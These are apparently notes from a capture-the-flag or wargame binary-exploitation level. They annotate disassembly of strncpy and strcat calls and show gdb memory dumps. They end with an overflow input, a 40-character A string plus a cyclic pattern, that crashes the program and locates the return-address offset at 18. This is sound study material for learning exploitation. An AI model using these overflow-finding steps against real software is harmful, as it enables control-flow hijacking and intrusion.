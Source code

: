 

rep stos %eax,%es:(%edi)   <====> memset(buffer, 0, sizeof(buffer));

The "rep" prefix specifies that the instruction should be repeated multiple times,

while the "stos" instruction stores the value in the %eax register to the destination pointed to by %es:%edi.

In other words, this instruction performs a repeating store of the value in the %eax register 
to consecutive memory locations starting from the address specified by %es:%edi.

This is a kind of memset on the buffer start at address esp+0x50

```
(gdb) x/4wx $esp+0x50
0xbffff680:	0x08048287	0x00000000	0x00c30000	0x00000001

(gdb) rep stos %eax,%es:(%edi) 

(gdb) x/4wx $esp+0x50
0xbffff680:	0x00000000	0x00000000	0x00000000	0x00000000
```

```
mov    0xc(%ebp),%eax
add    $0x8,%eax
mov    (%eax),%eax

movl   $0x20,0x8(%esp)
mov    %eax,0x4(%esp)

lea    0x50(%esp),%eax
add    $0x28,%eax
mov    %eax,(%esp)
call   0x80483c0 <strncpy@plt>


movl   $0x20, 0x4(%esp)   ; maximum number of characters to copy (32)
mov    %eax, (%esp)       ; source buffer (src)
lea    0x50(%esp), %eax   ; destination buffer (dest)

The parameters are passed in the following order:
dest: 0x50(%esp)
src: %eax
n: 0x20 (32)

strncpy((char*)0x50(%esp) + 0x28, (const char*)%eax, 0x20);


buffer = 0x50
strncpy(buffer + 0x28, argv[2], 0x20);
```

```
run AAAA BBBB

0xbffff690:	0x41414141	0x00000000	0x00000000	0x00000000
0xbffff6a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff6b0:	0x00000000	0x00000000	0x42424242	0x00000000
0xbffff6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff6d0:	0x00000000	0x00000000	0x00000000	0xbfffff05

(gdb) p/d 0xbffff6b8 - 0xbffff690
$1 = 40
(gdb) p/d 0xbffff6d8 - 0xbffff6b8
$3 = 32

```

```
 0x08048629 <+256>:	rep movsl %ds:(%esi),%es:(%edi)
 
 Move every dword of esi in edi
 copied all content of buffer to esp
```

function greetuser

```
0x08048494 <+16>:	 cmp    $0x2,%eax
0x080484e9 <+101>:	mov    $0x804872a,%edx

(gdb) x/s 0x804872a
0x804872a:	 "Goedemiddag! "

   0x0804850a <+134>:	lea    0x8(%ebp),%eax
   0x0804850d <+137>:	mov    %eax,0x4(%esp)
   0x08048511 <+141>:	lea    -0x48(%ebp),%eax
=> 0x08048514 <+144>:	mov    %eax,(%esp)
   0x08048517 <+147>:	call   0x8048370 <strcat@plt>

strcat("Goedemiddag! " , av[1])

puts("Goedemiddag! AAAA")
```


```
run $(python -c 'print "A" * 40') "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaabaaacaaadaaaeaaafaaagaaahaaa

SIGSEGV
0x61666161

cyclic -l 0x61666161 = 18
```








